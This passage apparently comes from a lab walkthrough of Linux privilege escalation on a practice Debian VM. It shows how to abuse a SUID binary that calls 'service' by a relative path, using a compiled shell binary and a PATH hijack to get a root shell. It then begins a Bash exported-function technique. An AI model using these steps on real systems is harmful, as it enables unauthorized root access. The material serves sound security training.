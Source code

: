 First, execute the file and note that it seems to be trying to start the apache2 webserver:

`$ /usr/local/bin/suid-env`

```
$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```
One line ("service apache2 start") suggests that the service executable is being
called to start the webserver, however the full path of the executable
(/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable
called service. This code simply spawns a Bash shell:

`$ gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located)
to the PATH variable, and run the suid-env executable to gain a root shell:
`$ PATH=.:$PATH /usr/local/bin/suid-env`

### SUID / SGID Executables - Abusing Shell Features (#1)

The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except
that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

`$ strings /usr/local/bin/suid-env2`

In Bash versions <4.2-048 it is possible to define shell functions with names that
resemble file paths, then export those functions so that they are used instead of any
actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:
```
$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```
